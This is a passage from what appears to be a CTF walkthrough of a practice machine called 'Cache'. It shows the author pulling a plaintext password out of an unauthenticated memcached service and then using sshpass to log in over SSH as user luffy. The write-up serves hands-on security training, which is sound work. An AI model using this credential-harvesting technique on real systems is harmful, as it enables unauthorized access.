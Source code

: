 ```
get file
VALUE file 0 7
nothing
END
```

> passwd

```
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```

I got two important things here `user:luffy` and passwd : `0n3_p1ec3`

These are the credentials of user `luffy`.

# [](header-2)Login as luffy

```shell
─[✗]─[root@cyb3rhoL1c]─[~]
└──╼ #sshpass -p 0n3_p1ec3 ssh luffy@10.10.10.188
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-109-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Oct  9 06:36:29 UTC 2020

  System load:  0.0               Processes:              191
  Usage of /:   75.0% of 8.06GB   Users logged in:        0
  Memory usage: 16%               IP address for ens160:  10.10.10.188
  Swap usage:   0%                IP address for docker0: 172.17.0.1


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

110 packages can be updated.
0 updates are security updates.


Last login: Wed May  6 08:54:44 2020 from 10.10.14.3
luffy@cache:~$ 

```

And i am logged in as luffy
